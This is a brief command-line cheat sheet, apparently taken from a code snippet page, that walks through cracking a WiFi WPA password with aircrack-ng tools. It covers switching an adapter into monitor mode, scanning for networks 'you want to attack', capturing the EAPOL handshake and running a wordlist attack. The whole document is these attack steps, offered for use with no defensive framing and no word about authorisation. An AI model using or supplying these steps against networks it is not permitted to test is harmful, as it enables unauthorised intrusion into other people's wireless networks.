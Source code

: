 # lists the network adaptors available and their properties. Note the name of your network adaptor that support monitoring, e.g., wlan1:
iwconfig
# Change adaptor into monitor mode:
airmon-ng start wlan1
# See the new adaptor:
iwconfig
# Search for all wifi available for you to attack and mark the channel and mac address of the wifi you want to attack:
airodump-ng wlan1mon 
# Capture wpa handshake: (EAPOL)
airodump-ng -c <channel-no> -w <name-of-output-file> -d <mac-address> wlan1mon : 
# Crack the password:
aircrack-ng output-above.cap -w wordlist.txt
